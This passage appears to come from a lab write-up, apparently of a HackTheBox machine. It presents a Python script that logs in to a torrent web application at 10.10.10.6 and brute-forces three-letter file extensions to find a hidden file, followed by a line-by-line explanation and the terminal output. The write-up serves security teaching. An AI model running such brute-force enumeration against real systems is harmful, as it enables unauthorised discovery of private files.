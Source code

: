 {% highlight python linenos %}
import requests, sys, time

filename = "b44b82a4bc6c35f6ad5e9fceefef9509c17fba74" #CHANGE THIS
directory = "torrents"                                #CHANGE THIS

#Obtain a session cookie for a logged in user
data = {"username":"x","password":"x"}
r = requests.post("http://10.10.10.6/torrent/login.php", data=data, allow_redirects=False)
sessionCookie = r.headers["Set-Cookie"].split(";")[0]
headers = {"Cookie":""+sessionCookie}

#Generate extensions
validChars= "abcdefghijklmnopqrstuvwxyz"
extensions = [i+j+k for i in validChars for j in validChars for k in validChars]

#Brute force extensions
startTime = time.time()
for extension in extensions:
    elTime = str(int(time.time() - startTime))
    print("Extension: '%s'. Elapsed time: %s seconds." % (extension,elTime), end="\r")

    URL = "http://10.10.10.6/torrent/"+directory+"/"+filename+"."+extension
    r = requests.get(URL, headers=headers)
    if r.status_code != 404:
        print("Found URL: " + URL)
        print("The URL was found in %s seconds" % int(time.time() - startTime))
        sys.exit(0)
{% endhighlight %}

At line 3 and 4 we define a filename and a directory where we believe that the file is located. Next, we log in to the application between line 7 and 10 since we don't know if we need to be authenticated to access the file. Then, at line 14, we generate a list of all possible extensions that are 3 characters long, using [list comprehension](https://www.w3schools.com/python/python_lists_comprehension.asp). The for loop at line 18 then loops through all of these extensions. At line 22, a URL is built using the specified directory, specified filename and an extension from the list of extensions. Thereafter, at line 23, we send a `GET` request to the URL. If the HTTP status code of the response is `404 Not Found`, we continue with the next extension. Otherwise, we halt the execution and print the URL which did not result in a `404 Not Found` error message.

If we run the code, we discover the URL `http://10.10.10.6/torrent/torrents/b44b82a4bc6c35f6ad5e9fceefef9509c17fba74.btf` as can be seen below. The author might have chosen to save torrent files with the extension `.btf` since "BTF" is an abbreviation for "Bit Torrent File". It is, however, not a common file extension. Since the extension started with one of the first characters in the alphabet, it only took 81 seconds for the script to finish when executed on my machine. The script might take more or less time to finish on another machine depending on its hardware as well as its internet connection.
{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@python3 x.py@@                                                                                                                                      1 ⚙
@@@Found URL: http://10.10.10.6/torrent/torrents/b44b82a4bc6c35f6ad5e9fceefef9509c17fba74.btf@@@
The URL was found in 81 seconds
{% endhighlight %}
